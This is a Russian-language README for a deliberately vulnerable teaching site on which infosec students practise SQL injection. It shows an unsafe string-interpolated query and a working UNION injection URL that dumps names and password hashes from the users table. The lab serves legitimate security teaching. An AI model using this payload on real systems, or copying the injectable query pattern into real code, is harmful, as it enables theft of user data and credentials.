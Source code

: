 # Тестовая площадка для изучения студентами SQL инъекций v2

Намеренно сделана с нарушениями всех возможных паттернов программирования, т.к., как ясно из названия, она должна легко взламываться студентами на курсе по инфобезу. Взломать можно, вставив инъекцию на место имени пользователя при просмотре чужого профиля, т.к. страница пользователя работает так же, как список всех пользователей — в цикле выводит все результаты запроса из БД, с той лишь разницей, что запрос фильтруется по никнейму пользователя, переданному в адресной строке.

Запрос к БД на сервере:

```sql
SELECT nickname, status FROM users WHERE nickname = '{nickname}'
```

Инъекция в URL адресе:

http://{hostname}/users/' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--

Так выглядит запрос с SQL инъекцией:

```sql
SELECT nickname, status FROM users WHERE nickname = '' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--'
```

Выдача на сайте:

![Снимок экрана](sql_injection_example.png)


## Как запустить?

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
uvicorn app.main:app --host 0.0.0.0 --port 8000
```
